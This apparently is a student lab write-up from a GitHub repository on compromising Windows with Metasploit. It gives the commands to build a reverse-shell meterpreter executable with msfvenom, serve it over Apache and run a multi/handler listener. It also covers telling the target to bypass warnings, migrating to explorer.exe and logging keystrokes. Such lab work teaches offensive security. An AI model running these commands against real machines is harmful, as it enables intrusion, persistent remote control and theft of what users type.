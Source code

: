 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
# PROGRAM:
Find the attackers ip address using ifconfig

# OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/b9eb08be-ee84-48f6-9b95-f75a5ef4c10a)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/32f0f4c0-bd07-48f6-b56b-c6d93b4ed080)
Start apache server sudo systemctl apache2 start and Check the status of apache2
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/a258bd8b-ecc2-4e66-a4ba-3b9e68d89f21)
# Invoke msfconsole:

# OUTPUT:
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/be166b27-1e3d-4627-b73e-390ecff8d1fa)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/e2dfae3b-5418-4315-a71b-14d78539e5fa)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/3c5900dc-2258-4e7f-a1bd-d977f429ae8d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/8f30eba6-d8de-497e-a41b-99849624294c)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/4a21515f-43e0-4c6e-83c6-fa4c3b92446b)
keyscan_dump Shows the keystrokes captured so far
![Uploading image.png…]()

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
